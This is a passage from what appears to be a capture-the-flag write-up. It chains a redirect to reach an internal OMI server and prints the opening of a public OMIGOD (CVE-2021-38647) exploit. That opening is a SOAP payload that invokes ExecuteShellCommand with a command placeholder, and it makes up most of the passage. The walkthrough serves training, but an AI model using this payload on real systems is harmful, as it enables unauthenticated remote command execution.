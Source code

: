 We get a `hit`.  

<br/> 
<img src="/img/Jarmis_Screenshots/Pasted image 20250102002458.png" alt="1" style="width:700px; height:auto;">
<br/>

The `redirection` Chain is working. What we need to do now is to `redirect` internally to the `OMI` server. The `POC` of the `OMIGOD` is available online.   

```python
#!/usr/bin/python3

import argparse
import re
import requests
import urllib3
from xml.etree import ElementTree
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# SOAP payload from https://github.com/midoxnet/CVE-2021-38647
DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""
```